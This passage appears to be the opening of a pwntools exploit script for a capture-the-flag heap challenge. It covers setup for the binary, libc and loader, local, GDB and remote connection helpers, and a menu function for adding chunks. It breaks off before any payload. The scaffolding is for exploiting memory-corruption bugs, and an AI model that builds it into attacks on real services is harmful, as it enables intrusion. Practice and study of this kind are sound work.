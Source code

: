 ```py
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
pwn.context.timeout = 3
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
b* main
'''.format(**locals())

def exp():
    io = start()

    def add(idx, size, data, noLine=False):
        io.sendlineafter(b"> ", b"1")
        io.sendlineafter(b"idx: ", str(idx).encode())
        io.sendlineafter(b"size: ", str(size).encode())
        
        if not noLine:
            io.sendlineafter(b"content: ", data)
        else:
            io.sendafter(b"content: ", data)

    def view(idx):
```
